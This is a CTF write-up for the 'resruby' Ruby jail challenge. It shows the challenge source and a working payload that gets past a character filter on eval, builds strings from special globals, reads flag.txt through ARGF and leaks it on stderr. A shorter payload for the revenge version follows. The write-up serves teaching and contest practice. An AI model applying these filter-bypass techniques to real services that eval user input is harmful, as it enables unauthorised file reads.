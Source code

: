 # resruby (4 solves)

> when people say they like ruby for its simplicity, this is what they mean, right?
>
> nc resruby.challs.csc.tf 1337
>
> **Author:** oh_word

I partecipated to the first edition of `CyberSpace CTF` with [@TheRomanXpl0it](https://theromanxpl0.it/). It's always nice to see some jail challenges so, I decided to write a writeup for the challenge I liked the most: resruby.

<!--more-->

# Index
 - [Overview](#overview)
   - [Source](#source)
   - [Building strings from scratch](#building-strings-from-scratch)
   - [Reading and leaking the flag](#reading-and-leaking-the-flag)
 - [Solve](#solve)
 - [Flag](#flag)
 - [Considerations](#considerations)
 - [Resources](#resources)
   

# Overview
Since this category was in the `jail` category, it can be deduced that it requires executing arbitrary code while bypassing some checks/restrictions.

With that in mind, let's take a look at the source code

## Source
We're given a single file called `chall.rb`
```rb
STDOUT.sync = true
STDOUT.class.send(:remove_method, :<<)

print "safe code > "
code = gets.chomp

if code =~ /[\w?'"`]/
  puts "not safe"
  exit 1
end

puts "ok"
eval code
```

There's not much going on, the only restriction is the regex ```/[\w?'"`]/```:
 - `[...]` - Match a single character present in the list below
 - `\w` - matches any word character (equivalent to `[a-zA-Z0-9_]`)
 - ``` ?'"` ``` matches a single character in the list

With this regex it's impossible to execute trivial payloads to obtain RCE/Arbitrary file read.
Also, the `<<` method of `STDOUT` is disabled so it's impossible to print the flag to stdout

It's quite rare to see CTFs with a ruby ​​jail. Luckily for me, I solved a few ruby jails before so roughly I already had in mind what to do. The only tricky parts were:
 - Building strings from scratch
 - Leaking the flag

## Building strings from scratch
From the previous ruby jail I learned that it's not required to use quotes to create strings by using this payload

```rb
A=%<>       # creates an empty string
A<<?f
A<<?l
A<<?a
A<<?g
A<<?.
A<<?t
A<<?x
A<<?t
p A         # it will print flag.txt
```

The previous syntax is allowed in ruby but not in our case.
Another way to build strings from scratch is the following

```rb
A=%<>
A<<102          # f
A<<108          # l
A<<97           # a
A<<103          # g
A<<46           # .
A<<116          # t
A<<120          # x
A<<116          # t
```

Since we can't even use numbers, we need to find a way to "build" them.

I found out that ruby golf cheatsheets contain useful information to solve ruby jail challenges.
By default, ruby has some special global variables. A list of them can be found [here](https://medium.com/ruby-golf/ruby-golf-cheatsheet-eb27ec2cdf60#Special%20variables).

A variable that is useful in this case is `$.`:
```rb
$.   # The current line number of the last file from input.
```

After taking our input, this variable will always contains `1`. We also need a way to store strings without using letters. By fuzzing I found out the variable $, can do so:

```rb
$,   # The output field separator for the print and Array#join.  Defaults to nil.
```

With that in mind, I created a simple function to solve our problem:

```py

def to_num(f):
    return '+'.join('$.' for x in range(f)) if f else '$.-$.'


print(f"""
$,=%<>
$,<<{to_num(102)}
$,<<{to_num(108)}
$,<<{to_num(97)}
$,<<{to_num(103)}
$,<<{to_num(46)}
$,<<{to_num(116)}
$,<<{to_num(120)}
$,<<{to_num(116)}
""")
```

## Reading and leaking the flag

Now comes the trickiest part.
In order to read files we can use [ARGF](https://ruby-doc.org/core-2.5.1/ARGF.html) which is the same as `$<`. Here's an example:

```
$*<<"flag.txt"      # Put "flag.txt" inside ARGV
p *$<               # Print the content of "flag.txt"
```
Note that `ARGF` operates on the file names inside `ARGV`.
Since we can't print the flag to stdout, we can leak it in this way:

```py
open(open("flag.txt").read()) # We need an equivalent payload in ruby
```

I noticed that `$:` (which is the equivalent of `$LOAD_PATH`) might be useful for us. Although $: is read-only, you can replace its elements to store strings (or any value).

```rb
$: = "test"         # not allowed
$:[0] = "test"      # allowed
```

Now we have everything to write a working payload which will leak the content of `flag.txt.`

# Solve

```rb
$,=%<>                  # empty string
$,<<102                 # f
$,<<108                 # l
$,<<97                  # a
$,<<103                 # g
$,<<46                  # .
$,<<116                 # t
$,<<120                 # x
$,<<116                 # t
$*<<$,                  # ARGV -> ["flag.txt"]
$:[0]=*$<               # read "flag.txt" and put it inside $: at index 0
$*<<$:[0][0]            # Put the content of flag.txt inside ARGV
$,=*$<                  # print the flag to stderr
```

You can find the final payload [here](https://gist.github.com/salvatore-abello/260c5380d55dc281c959d087718ee5ef)

# Flag

```
CSCTF{what_was_harder?_leaking_flag_or_getting_strings}
```

# Considerations

A revenge challenge has also been released where there's a limit of 35 characters to our input. A shorter payload could be made by reading from STDIN the flag path.
By doing so, the payload becomes:

```rb
$*.<<(*$<) # read from stdin
$*.<<(*$<) # read from flag.txt
$*.<<(*$<) # leak the flag
```

In order to make this payload work, you need close stdin from further reading. You can do that by pressing `CTRL+D` but it only works locally.
Since you can't directly send `CTRL+D` to the remote server, you can use `remote.shutdown` (Thanks to @lydxn).
I didn't know that `remote.shutdown` existed so I was unable to solve the revenge version.

But at the end, it was a fun challenge to solve ❤️

Thanks to the authors for the challenge and for the CTF in general.

# Resources
Ruby Docs - [Click here](https://ruby-doc.org/)\
Ruby Global Variables - [Click here](https://rubyreferences.github.io/rubyref/language/globals.html)\
Ruby Golf Cheatsheet - [Click here](https://medium.com/ruby-golf/ruby-golf-cheatsheet-eb27ec2cdf60#Special%20variables)\
Another Ruby Golf Cheatsheet - [Click here](https://github.com/siman-man/ruby-golf-style-guide)